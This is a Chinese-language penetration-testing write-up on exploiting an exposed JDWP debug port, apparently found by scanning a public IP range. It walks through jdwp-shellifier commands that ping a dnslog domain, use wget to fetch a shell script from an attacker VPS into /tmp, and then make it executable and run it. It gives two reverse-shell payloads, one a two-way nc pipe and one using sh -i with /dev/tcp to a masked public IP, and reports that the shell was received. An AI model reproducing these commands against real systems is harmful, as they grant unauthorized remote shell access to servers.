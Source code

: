 ### 坑点总结：
1、漏洞利用时需考虑目标上是否存在反弹shell的程序  

### 0x01 打点发现
nmap扫描某ip的C段，用时大概19h，对识别到的指纹信息依次查看，查看到如下信息
```
5005/tcp  open  jdwp       Java Debug Wire Protocol (Reference Implementation) version 1.8 1.8.0_191
|_jdwp-info: ERROR: Script execution failed (use -d to debug)
```
之前复现过JDWP的漏洞，故有此文

### 0x02 简单验证
telnet 106.53.xx.xx 5005  
返回JDWP-Handshake，即表示存在漏洞  
我这边没有返回JDWP-Handshake，不管它，继续尝试利用  
### 0x03 dnslog测试
1、先打个dnslog试试水  
POC下载地址：https://github.com/IOActive/jdwp-shellifier  
执行如下命令  
```
python2 jdwp-shellifier.py -t 192.168.3.118 -p 8787 --break-on "java.lang.String.indexof" --cmd "ping xx.dnslog.cn"
```
dnslog平台成功收到回显，感觉有戏  
### 0x04 尝试反弹shell  
将如下内容保存为shell.txt，放置到vps下，并通过python3开启一个临时的http服务器
```
nc 192.168.178.129 3333 | /bin/bash | nc 192.168.178.129 4444%
```
开启监听，需要开启2个监听，前面一个输入执行命令，后面一个输出命令执行结果
```
这里要注意，阿里云的vps开启nc监听，需要加个选项n，否则会报错

nc -lnvvp 3333
nc -lnvvp 4444
```
利用POC执行下载shell、对文件赋予可执行权限、执行shell
```
python2 jdwp-shellifier.py -t 192.168.178.128 -p 8000 --break-on "java.lang.String.indexof" --cmd "wget http://192.168.178.129:8000/shell.txt -O /tmp/shell.sh"
python2 jdwp-shellifier.py -t 192.168.178.128 -p 8000 --break-on "java.lang.String.indexof" --cmd "chmod a+x /tmp/shell.sh"
python2 jdwp-shellifier.py -t 192.168.178.128 -p 8000 --break-on "java.lang.String.indexof" --cmd "/tmp/shell.sh"
```
成功执行完，vps上并没有收到反弹回来的shell  
思考了一下，payload中使用nc连接vps，目标可能不存在nc，改用sh，修改shell.txt为如下
```
sh -i >& /dev/tcp/101.200.xx.xx/3333 0>&1 | /bin/sh | sh -i >& /dev/tcp/101.200.xx.xx/4444 0>&1%
```
成功接收到反弹shell，如下图  
![image](./pic/1.png)

### 参考链接：  
https://blog.csdn.net/weixin_43486390/article/details/114259762  
